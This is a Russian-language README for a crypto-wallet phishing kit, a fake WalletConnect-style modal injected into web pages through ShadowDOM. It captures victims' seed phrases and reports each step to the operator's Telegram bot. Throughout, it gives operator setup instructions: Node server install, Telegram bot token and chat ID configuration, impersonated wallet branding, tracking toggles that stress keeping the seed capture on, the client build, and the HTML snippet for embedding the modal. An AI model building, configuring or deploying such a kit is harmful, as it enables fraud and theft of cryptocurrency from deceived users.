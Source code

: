 # web3 seed fake extension

## Описание

Это модальное окно, которое внедряется через ShadowDOM, которое похоже на [Wallet Connect](https://walletconnect.network/). Можно настроить полный список кошельков для выбора, либо добавить свои. Также после каждого действия пользователя телеграм бот "отстукивает" в личные сообщения (можно настроить этапы).

<video src="https://www.youtube.com/watch?v=DEAVbOs7d_4"></video>
[![Превью](https://www.privacy.com.sg/wp-content/uploads/2022/01/image-50.jpeg)](https://www.youtube.com/watch?v=DEAVbOs7d_4)

## Сервер

Название папки `server`

### Установка Node.JS на ВМ

Перходим в главную директорию

```
cd
cd ..
```

Начинаем установку Node.JS

````ubuntu
sudo apt install build-essential checkinstall
sudo apt install libssl-dev```
wget -qO- https://raw.githubusercontent.com/creationix/nvm/v0.33.8/install.sh | bash
source ~/.profile
source ~/.bashrc
nvm install 20.17.0
````

После установки, выполняем команду `node -v`
В консоли должно быть следующее: `v20.17.0`

### Установка сервера

Копируем, переходим в папку с сервером и устанавливаем зависимости.

```ubuntu
cd /your-folder
npm install
```

### Настройки бота

В файле `.env` меняем на токен собственного телеграм бота и на наш чат id.

ID чата можно узнать здесь `https://api.telegram.org/bot{Token}/getUpdates`
\*Вместо `{Token}` подставить токен бота. В `message.chat.id` будет лежать id чата (перед нужно отправить любое сообщение боту).

### Настройки кошельков

Настройка кошельков осуществляется в файле `wallets_config.json`

```json5
{
"wallets":
    [
        {
          "name": "metamask", //Имя кошелька, позже оно выводится в маршруте, который принимает данные
          "title": "Metamask", //Отображаемое имя кошелька (будет отображаться в качестве названия кошелька)
          "image": "metamask.svg", //Картинка, хранится в папке public (Указываем просто название файла)
          "primarycolor": "#ed9f45", //Основновной цвет темы
          "secondarycolor": "#ed9f4540", //Дополнительный (полупрозрачный)
          "textcolor": "#8c5e29" //Цвет текста на кнопке
        },
     ...
    ]
}
```

Какие цвета за что отвечают
[![instruction.png](https://i.postimg.cc/CKKzhNpf/instruction.png)](https://postimg.cc/0zL8Z7Q8)

Кошельки принимаются клиентом одним массивом, выводятся в порядке очереди.

### Настроки отслеживания действий

Данная настройка осуществляется в файле `request_config.json`

```json5
{
  enter: true, //отслеживание открытия модального окна
  choosewallet: true, //отслеживание выбора кошелька
  chooseseed: true, //отслеживание выбора длины сид фразы
  seed: true, //отключение финального запроса (Если по какой-то причине требуется отключить, но РЕКОМЕНДАЦИЯ! НЕ ТРОГАТЬ ДАННУЮ НАСТРОЙКУ!)
}
```

### (Пропускаем, необязательный пункт) Настройка CORS

В `src/index.js` есть закомментированный код перед регистрацией `fastifyCors`

```
(origin, cb) => {
        if (corsConfig.domains.indexOf(origin) !== -1 || !origin) {
          cb(null, true);
        } else {
          cb(new Error('Not allowed by CORS'));
        }
      },
```

Его нужно вставить вместо `'*',` в `origin: '*',`

Настройка CORS доменов осуществляется в файле `cors.config.js`

```javascript
{
    domains: [
    'https://mydomain.com', 'https://mydomain.ru', 'https://mydomain.io', ...
    ]
}
```

Просто добавляем нужный домен в массив.

### Запуск сервера

Запускаем сервер (По умолчанию на порту `443`).

```bash
npm start
```

## Клиент

Название папки `vue-project`

### Настройка доменов для запроса

В файле `src/views/Main.vue` на `19` и `30` строчках меняем домен.
В файле `src/views/Connect.vue` на `28` строчке меняем домен.

### Сборка

Перед сборкой убедитесь, что `vite.config.js` совпадает с настройками ниже.

```javascript
import { defineConfig } from "vite";
import vue from "@vitejs/plugin-vue";

export default defineConfig({
  plugins: [vue()],
  define: {
    "process.env": {}, // Можно убрать, но не стоит
  },
  build: {
    lib: {
      entry: "./src/main.js",
      name: "WalletModal",
      fileName: (format) => `wallet-modal.${format}.js`,
    },
    rollupOptions: {
      external: ["vue"],
      output: {
        globals: {
          vue: "Vue",
        },
      },
    },
  },
  resolve: {
    alias: {
      "@": "/src",
    },
  },
});
```

Далее собираем проект (Лучше всего делать на локальной машине. Требуется скачать и установить Node.js, если его нет, тут [Ссылка](https://nodejs.org/en))

Далее через Командную строку

```bash
cd ./your-folder
npm install
npm run build
```

В папке `./dist` будет несколько файлов, переносим все на ВМ.

## Настройка `wallet-dom-init.js` и подключение модуля к странице

### Настройка `wallet-dom-init.js`

Открываем файл, на строчке `24` в `@import url('http://localhost:3000/style.css');` вместо `http://localhost:3000` прописываем домен, где размещены файлы из сборки.
Сохраняем и перекидываем этот файл туда же.

### Подключение модуля

Делаем напрямую в `index.html`

! `https://domain.com/` меняем на актуальный домен, где расположен клиент.

Подключается через `Shadow DOM`, чтобы избежать конфликт стилей.

1. Подключаем Vue глобально
2. Подключение клиента
3. Устанавливаем клиент через кастомный элемент `<wallet-modal>` (лучше разместить этот элемент сразу после `<body>`)

```html
<head>
  <script src="https://unpkg.com/vue@3.3.0/dist/vue.global.js"></script>
  <script src="https://domain.com/wallet-modal.umd.js"></script>
  <script async src="https://domain.com/wallet-dom-init.js"></script>
</head>

<body>
  <wallet-modal></wallet-modal>
</body>
```
